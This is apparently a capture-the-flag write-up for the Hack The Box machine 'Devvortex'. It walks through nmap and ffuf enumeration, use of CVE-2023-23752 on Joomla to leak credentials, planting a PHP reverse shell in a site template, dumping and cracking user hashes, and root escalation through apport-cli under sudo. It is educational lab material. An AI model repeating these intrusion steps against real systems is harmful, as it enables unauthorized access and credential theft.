


# Information Gathering

Scanned all TCP ports:

```bash
#nmap scan
nmap -sV -sC -v -p- -T4 -oN nmap/initial $IP --open

#nmap results
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

# Enumeration

## TCP Port 80 - HTTP

Added `devvortex.htb` to my `/etc/hosts` file.

Found nothing interesting on main page, nothing when scanning for vulns and nothing when performing directory bruteforcing. Thus, I began to fuzz for subdomains.

Subdomain enumeration:

```nasm
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$IP -H "HOST:FUZZ.devvortex.htb" -fs 154
```



I then added the subdomain to my `/etc/hosts` file.

Starting back from square one on new site…

No interesting functionality on website. When performing subdirectory enumeration I received the following results:


The subdirectory that stood out was `/administrator` 

This could also be found by viewing the `robots.txt` file:


/administrator/:   


We have a Joomla admin login page. Let’s try to find creds.

Performed a `droopescan`:


When navigating to the first URL displayed by droopescan, we get very useful information:


This tells us the Joomla version is 4.2.6 and gives us interesting folders and files to check out.

I relied on HackTricks to help me enumerate and exploit Joomla as I haven’t worked with it before. This was a HUGE help: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)

Let’s first check for exploits for this Joomla version

I found an exploit on GitHub for [CVE-2023-23752](https://github.com/ThatNotEasy/CVE-2023-23752)

Let’s install and configure the tool, and then test it out.

---

# Exploitation

## CVE-2023-23752

I simply downloaded the [`joomla.py`](http://joomla.py) file from the GitHub repository and spun it right up:


Creds gained! `lewis:P4ntherg0t1n5r3c0n##`


We’re in 😎

Again, we will follow HackTricks to exploit Joomla by navigating to `System>Site Templates>Cassiopeia Details and Files`

We will select a php file - I went with `error.php` and we will edit the code to give us a reverse shell. I copied the one from `/usr/share/webshells/laudanum/php/php-reverse-shell.php` and edited the file to my attacker IP address and the port I wanted to listen on via netcat.

I outputted the contents of the reverse shell, copied them, and replaced the contents of the `error.php` file in Joomla and clicked Save.


When calling this page via curl, our reverse shell is established


---

# Privilege Escalation

## Local Enumeration & Lateral Escalation

Firstly, I stabilized my shell by issuing the below commands individually:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

export TERM=xterm-256color

alias ll='ls -lsaht --color=auto'

# Keyboard Shortcut: Ctrl + Z (Background Process.) #

stty raw -echo ; fg ; reset

stty columns 200 rows 200
```

Now we have a fully stable shell with auto-completion and more 🤑

I will quickly check for system users on the machine so I know where to potentially laterally escalate to

```sql
cat /etc/passwd | grep /bin/bash
```

We get `root` and `logan`

Given that we have mysql creds, let’s now login to mysql 

```bash
#Target machine
mysql -u lewis -p
```


Referring to the information we gained from the exploit earlier, let’s select the database to `joomla`

```sql
use joomla;
```

We will now show tables in the `joomla` database

```sql
show tables;
```


We get back a lot of results but I’d like to dig in to the `sd4fg_users` table.

Thus, let’s gather all information from this table

```sql
select * from sd4fg_users;
```


This output contains a hash for the user `logan`. A user we know to exist on the machine from our enumeration earlier. I will copy this hash and analyze it with [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier) 

Note: The command-line tool built-in to Kali `hash-identifier` did not recognize the hashes for me.


I will now search for the Hashcat mode for this specific hash type


I will copy the contents of the hash and place it in a file called `hash.txt`

I will then attempt to crack the hash via Hashcat

```bash
hashcat -m 3200 hash.txt /user/share/wordlists/rockyou.txt
```


Hash cracked!! `logan:tequieromucho`

I will now attempt to login as the `logan` user via SSH


Retrieved the `user.txt` file

## Apport-cli as root

When running `sudo -l` we get the following:


I will search for exploits for apport version 2.20

I find a link to a GitHub [page](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) showcasing a PoC exploit.

We must first generate a crash to have a crash file as there aren’t any in `/var/crash/`

```bash
#create a crash
sleep 13 * killall -SIGSEGV sleep
```


Now, let’s perform the same thing as demonstrated to get `root`.

```bash
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

Select option “V”

We will get back a bunch of information, however, entering `!<command>` allows us to execute commands as `root`. I ran `!id` to confirm and then retrieved the contents of the `root` flag.


---

# Resolution summary

- Performed an nmap scan on open ports and their service information
- Performed a subdomain enumeration uncovering http://dev.devvortex.htb
- Performed a subdirectory bruteforce leading us to a Joomla admin portal
- Performed a droopescan and enumerated Joomla version
- Leveraged CVE-2023-23752 to retrieve mySQL credentials
- Used gathered mySQL credentials to login to Joomla admin panel
- Injected malicious PHP code in “Site Templates” to establish a reverse shell
- Connected to mySQL database and dumped all contents of users table
- Looked up hashes to determine their types
- Cracked hashes with Hashcat
- Logged in via SSH as system user
- User was able to run appport-cli as sudo
- Vulnerable appport-cli version allowed local privilege escalation
- Root obtained and both flag’s retrieved

## Improved skills

- Performed a droopescan on Joomla
- Template Injection in Joomla
- How to intentionally create a crash file
- Exploiting a sudo vuln not on GTFObins
- Running commands via less

## Used tools

- nmap
- gobuster
- ffuf
- droopescan
- ssh

---

# Trophy

> "Cr34t1ng 4 path of 3xcell3nc3 t4k3s d3t3rm1n4t10n, h4rd w0rk, 4nd 4 sp1r1t th4t n3v3r s4y5 'I can't.'”
> 

**User.txt**


**Root.txt**

